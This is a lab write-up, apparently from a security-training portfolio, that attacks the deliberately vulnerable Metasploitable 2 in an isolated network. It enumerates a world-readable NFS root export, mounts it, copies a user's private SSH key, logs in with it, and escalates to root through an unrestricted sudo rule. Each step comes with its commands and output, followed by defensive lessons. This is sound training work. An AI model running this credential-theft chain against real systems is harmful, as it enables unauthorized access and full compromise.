









# Metasploitable Lab 8 — NFS Misconfiguration, SSH Key Access, and Privilege Escalation via Sudo Misconfiguration

## Objective

The objective of this lab was to identify and exploit a misconfigured Network File System (NFS) service exposing the entire filesystem, extract sensitive credentials from accessible directories, gain authenticated access via SSH using a discovered private key, and escalate privileges to root through a sudo misconfiguration.

This lab demonstrates a realistic attack chain leveraging misconfiguration and credential discovery rather than direct exploitation.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Nmap | Service enumeration |
| showmount | NFS share discovery |
| mount | Access remote filesystem |
| SSH | Remote access |
| Linux commands | Local enumeration and privilege escalation |

---

# Step 1 — Service Identification

From previous enumeration, the following service was identified:

2049/tcp open nfs  

---

## Analysis

- NFS (Network File System) allows remote file sharing  
- Often misconfigured in internal environments  
- High-value target due to potential exposure of sensitive data  

---

# Step 2 — NFS Share Enumeration

## Command Used

showmount -e 192.168.56.3  

---

## Result

Export list for 192.168.56.3:  
/ *  

---

## Analysis

- The root filesystem (`/`) is exported  
- `*` indicates access is allowed from any host  
- No authentication required  
- Critical misconfiguration exposing entire system  

---

# Step 3 — Mounting the NFS Share

## Commands Used

sudo mkdir /mnt/nfs  
sudo mount -t nfs 192.168.56.3:/ /mnt/nfs  

---

## Verification

ls /mnt/nfs  

---

## Result

Full filesystem contents visible, including:

bin, etc, home, root, var  

---

## Analysis

- Direct access to target filesystem achieved  
- No need for credentials or exploitation  
- Equivalent to browsing the system locally  

---

# Step 4 — User Directory Enumeration

## Command Used

ls /mnt/nfs/home

---

## Result

ftp  
msfadmin  
service  
user  

---

## Analysis

- Multiple user accounts identified  
- Home directories are high-value targets for credential discovery  

---

# Step 5 — Credential Discovery

## Command Used

ls -la /mnt/nfs/home/msfadmin/.ssh  

---

## Result

authorized_keys  
id_rsa  
id_rsa.pub  

---

## Analysis

- Private SSH key (`id_rsa`) discovered  
- Critical credential allowing password-less authentication  
- Indicates poor handling of sensitive files  

---

# Step 6 — SSH Key Extraction

## Commands Used

cp /mnt/nfs/home/msfadmin/.ssh/id_rsa .  
chmod 600 id_rsa

---

## Analysis

- Key copied locally for use  
- Permissions adjusted to meet SSH requirements  

---

# Step 7 — SSH Access

## Command Used

ssh -i id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.56.3  

---

## Result

Login successful:

msfadmin@metasploitable:~$  

---

## Analysis

- Gained authenticated access without password  
- Demonstrates power of exposed SSH keys  
- More stable and reliable access than reverse shells  

---

# Step 8 — Access Verification

## Commands Used

whoami  
id  
pwd  

---

## Output

whoami → msfadmin  
id → uid=1000(msfadmin)  
pwd → /home/msfadmin  

---

## Analysis

- Standard user access confirmed  
- No elevated privileges initially  

---

# Step 9 — Sudo Privilege Check

## Command Used

sudo -l  

---

## Result

User msfadmin may run the following commands on this host:  
(ALL) ALL  

---

## Analysis

- User allowed to execute any command as root  
- Critical misconfiguration  
- Direct privilege escalation path  

---

# Step 10 — Privilege Escalation

## Command Used

sudo su

---

## Verification

whoami  

---

## Output

root  

---

## Analysis

- Privilege escalation successful  
- Full system compromise achieved  
- No exploitation required, only misconfiguration abuse  

---

# Security Concepts Learned

This lab demonstrated several critical concepts:

- **NFS Misconfiguration** — Unrestricted filesystem exposure  
- **Filesystem Access Abuse** — Direct access without exploitation  
- **Credential Discovery** — Identifying sensitive files in user directories  
- **SSH Key Authentication** — Password-less access mechanism  
- **Authentication vs Exploitation** — Gaining access through misconfiguration  
- **Local Enumeration** — Identifying escalation opportunities  
- **Sudo Misconfiguration** — Critical privilege escalation vector  
- **Privilege Escalation** — Transition from user to root  

---

# Lessons Learned

- Misconfigured file shares can expose entire systems  
- NFS services must be tightly restricted by IP and permissions  
- Sensitive files such as SSH keys should never be exposed  
- Credential discovery can eliminate the need for brute force or exploits  
- SSH key access provides stable and persistent control  
- Enumeration is critical after gaining access  
- Misconfigurations can be more dangerous than vulnerabilities  
- Real-world attacks often rely on chaining simple weaknesses  

---

# Final Outcome

- NFS service identified and exploited  
- Full filesystem access obtained  
- SSH private key discovered and extracted  
- Authenticated SSH access established  
- Local system enumeration performed  
- Sudo misconfiguration identified  
- Privilege escalation achieved  
- Root access obtained  